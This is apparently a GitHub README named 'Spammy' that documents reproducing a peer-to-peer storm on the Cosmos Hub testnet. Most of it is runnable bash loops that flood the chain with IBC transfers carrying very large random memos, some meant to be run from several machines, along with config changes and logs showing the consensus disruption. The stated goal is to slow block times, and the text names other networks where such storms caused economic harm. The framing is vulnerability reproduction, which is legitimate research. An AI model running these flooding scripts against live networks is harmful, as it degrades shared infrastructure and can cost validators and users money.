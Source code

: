 # Spammy

## Tooling and documentation for the reproduction of:

* banana king
* client update spam
* banana client

In an effort to reporoduce a p2p storm on the cosmos hub testnet. 


### it has been reproduced

```log
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
```

these are from the hub testnet today, 9/27/2023



## Links to explorer

* **client updates**
 * https://ping.pub/cosmos/tx/2BA652123FFD549CCFA672BDD596801DABAD680029EA817369814DE5750DB4AB

* **testing wallet - mainnet**
  * https://www.mintscan.io/cosmos/address/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq
  * txns were made so that they fail intentionally.

* **testing wallet - testnet**
  * will vary between failed transactions and successes
  * goal is to increase block time on the testnet
  * https://explorer.rs-testnet.polypore.xyz/ 
  


## Target

We're looking to transmit a "banana client".  This transaction will 


## P2P storms have occured on the following networks:

* Sentinel
* Luna Classic
  * Led to economic harm 
* Stride


## Notes

Change the maximum request body size in config.toml

```toml
# Maximum size of request body, in bytes
max_body_bytes = 100000000
```

Generate a random string (hex output)

```bash
openssl rand -hex 10000000
```

Sign a transcation


Broadcast a transaction (oddly cli won't broadcast, we'll need to chain it)
```bash
gaiad tx broadcast bananasigned1.json --home ~/.gaia-rs
```

Abuse the ibc memo field
```bash
gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes
 ```

 Abuse the ibc memo field fast
 ```bash
 for (( ; ; )); do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number
 ```bash
 for i in {2000..3000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number, wait a tenth of a second between runs
 ```bash
for i in {3045..5000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; sleep .1 ; done
```

Abuse ibc memos using the account sequence to start


  Loop the loop script
```bash
while true ; do bash attack2.bash ; done
```

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```
but do it from two machines

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```






 Hub testnet blcok range 3881725 to 3881733



## How do I know if there is a p2p flood?

```log
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
```

